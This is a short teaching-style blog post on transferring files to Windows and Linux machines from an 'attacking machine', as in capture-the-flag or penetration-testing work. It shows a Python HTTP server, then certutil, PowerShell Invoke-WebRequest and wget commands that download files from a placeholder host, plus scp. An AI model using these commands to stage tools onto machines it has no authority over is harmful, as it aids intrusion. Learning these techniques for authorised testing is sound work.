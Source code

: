 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```


File transfer between Linux and Windows

# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```